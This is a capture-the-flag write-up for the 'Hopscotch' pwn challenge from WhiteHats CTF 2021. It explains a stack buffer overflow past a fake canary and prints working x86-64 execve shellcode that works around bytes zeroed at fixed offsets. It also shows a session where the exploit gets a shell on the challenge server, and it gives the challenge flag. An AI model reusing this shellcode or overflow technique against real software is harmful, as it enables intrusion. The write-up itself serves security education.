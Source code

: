```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Hopscotch
category: pwn 
flag: WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}
points: 991
solves: 5
---
```


> One childhood pasttime I never got to experience much is Hopscotch, a game where you jump and hop over boxes to reach to the goal.

> Won't you play with me?

Files given:
 - [hopscotch](hopscotch)

This challenge is a simple shellcoding exercise.

## Challenge details

There is no canery and NX bit is not set, furthermore the address to our input is printed, hence it we need to give it a proper shellcode to run.

We have a 48 byte array that we can write 96 bytes to, allowing us to overflow the return pointer. However, there is a variable right after the array acting as a 'canery' and is checked against 1337, so we will have to take care of that when overflowing.

The difficulty lies in the fact that when we input our payload, the `9,21,33,45`th bytes are set to `0`, hence we need a shellcode that has those as well.

There are 2 immediate ideas that comes to mind, a very short jump or moving 0 to a register. We can try out these in [shell-storm](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) and prepare our shellcode there. For instance the following are viable options to use when needing a 0:
 - `b"\xb0\x00", # mov al,0`
 - `b"\xb4\x00", # mov ah,0`
 - `b"\xb8\x00\x00\x00\x00", # mov eax,0`
 - `b"\xeb\x00", # jmp 2`
note that the `jmp 2` acts as a `nop` as it is `2` bytes long. Using these in mind, I simply inserted these whenever appropriate to get
```
0x00: 31 C0                          xor     eax, eax
0x02: 48 C7 C0 00 00 00 00           mov     rax, 0
0x09: 48 BB D1 9D 96 91 D0 8C 97 FF  movabs  rbx, 0xff978cd091969dd1
0x13: B0 00                          mov     al, 0
0x15: 48 F7 DB                       neg     rbx
0x18: 53                             push    rbx
0x19: 54                             push    rsp
0x1a: 5F                             pop     rdi
0x1b: 99                             cdq     
0x1c: 52                             push    rdx
0x1d: 57                             push    rdi
0x1e: 54                             push    rsp
0x1f: B0 00                          mov     al, 0
0x21: 5E                             pop     rsi
0x22: B0 3B                          mov     al, 0x3b
0x24: 0F 05                          syscall 
```

Using this we get shell and a with one very lazy grep command, we obtained the flag!

```
ariana@ariana ~/D/S/2/W/Hopscotch> py exploit.py remote
[+] Opening connection to chals.whitehacks.ctf.sg on port 20401: Done
[*] Switching to interactive mode
Enter input: $ grep -rnw "WH2021" / 2>/dev/null
/home/hopscotch/flag.txt:1:WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}
```

The solution script can be found at [exploit.py](exploit.py)
